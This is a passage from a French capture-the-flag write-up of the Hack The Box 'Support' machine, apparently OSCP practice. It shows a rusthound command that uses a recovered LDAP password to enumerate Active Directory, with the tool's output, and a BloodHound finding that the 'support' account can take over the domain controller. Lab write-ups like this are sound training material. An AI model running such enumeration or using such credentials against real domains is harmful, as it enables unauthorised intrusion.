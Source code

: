 C'est très intéressant car une autre méthode attendue était d'executer le programme et d'effectuer des requête **ldap** authentifiées avec le compte utilisateur "ldap". Il suffisait de lancer **wireshark** et d'analyser le trafic réseau afin de récupérer le mot de passe !

Bien sûr, le jour de l'OSCP il n'y aura pas de **chatBot** autorisé donc il faut prioriser la seconde méthode, à moins que vous ayez un très bon décompilateur de code **.NET**.

### Rusthound / Bloodhound : "support" account
On execute **rusthound** afin d'extraire les informations du compte **ldap**, puis on fait une analyse sur bloodhound. On trouve le compte **support** qui semble être très intéressant car il existe une route permettant à cet utilisateur de prendre la main sur le **DC** :
```bash
$ rusthound -d support.htb -u "ldap"@"support.htb" -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o /workspace/Support/bloodhound_data --zip -n 10.10.11.174
---------------------------------------------------
Initializing RustHound at 23:06:53 on 09/09/25
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2025-09-09T21:06:53Z INFO  rusthound] Verbosity level: Info
[2025-09-09T21:06:53Z INFO  rusthound::ldap] Connected to SUPPORT.HTB Active Directory!
[2025-09-09T21:06:53Z INFO  rusthound::ldap] Starting data collection...
[2025-09-09T21:06:54Z INFO  rusthound::ldap] All data collected for NamingContext DC=support,DC=htb
[2025-09-09T21:06:54Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2025-09-09T21:06:54Z INFO  rusthound::json::parser::bh_41] MachineAccountQuota: 10
[2025-09-09T21:06:54Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2025-09-09T21:06:54Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2025-09-09T21:06:54Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 21 users parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 61 groups parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 2 computers parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 1 ous parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 1 domains parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 2 gpos parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 21 containers parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] /workspace/Support/bloodhound_data/20250909230654_support-htb_rusthound.zip created!

RustHound Enumeration Completed at 23:06:54 on 09/09/25! Happy Graphing!
```
![Support account can generic all on DC](image-1.png)
